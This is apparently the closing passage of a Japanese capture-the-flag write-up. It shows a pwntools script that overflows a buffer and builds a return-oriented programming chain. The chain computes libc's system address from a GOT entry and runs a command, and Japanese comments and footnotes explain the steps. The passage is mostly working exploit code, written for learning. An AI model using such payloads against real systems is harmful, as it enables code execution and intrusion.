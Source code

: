 ```python

# print("[+] setting breakpoints: b *0x400fe3")
# input("[+] waiting...")
# print("[+] Done")

diff = addrs["libc_system"] - addrs["libc_setbuf"]

payload = b"a" * 536
payload += p64(gadgets["rdi"])
payload += p64(addrs["scanf_arg"])
payload += p64(gadgets["rsi"])
payload += p64(addrs["cmd_written"])
payload += p64(0)
payload += p64(addrs["scanf"])
payload += p64(gadgets["rbp"])
payload += p64(addrs["setbuf_got"] + 8)
payload += p64(gadgets["aar_rax"])
payload += p64(0)
payload += p64(0)
payload += p64(addrs["libc_written"] + 0x30)
payload += p64(gadgets["aaw_rax"])
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(gadgets["rbx"])
payload += p64(diff % 2**64)
payload += p64(addrs["libc_written"] + 0x3d)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(gadgets["add"])
payload += p64(gadgets["rbp"])
payload += p64(addrs["libc_written"] + 8)
payload += p64(gadgets["aar_rax"])
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(gadgets["rdi"])
payload += p64(addrs["cmd_written"])
payload += p64(gadgets["ret"])
payload += p64(gadgets["jmp_rax"])

payload += b"\n" + cmd


# writable 0x602000-0x603000
# ROPの流れ
# 1. "/bin/ls"をRWな領域に書き込む(scanfを使う)
# 2. RWな領域にlibcのアドレスが既に入っているどこかのGOTをaar_raxとaaw_raxで召喚する
# 3. add gadgetでそいつを加算し、libc@systemのアドレスとする
# 4. aar_raxでraxにそのアドレスを格納する
# 5. 引数を用意してjmp raxでsystemを発火する

with open("./payload.txt", "wb") as f:
    f.write(payload)

sc.sendline(payload)
sc.interactive()
```

[^1]: 最初Full RELROを見逃してGOT Overwriteで解こうとして失敗した、昨日の問題に引っ張られ過ぎである
[^2]: 今回は`ROPgadget.py`を用いた。デフォルトだと`pop rbx`用のガジェットが出てきてくれなかったので`--depth=20`オプションを付けたら生えてきた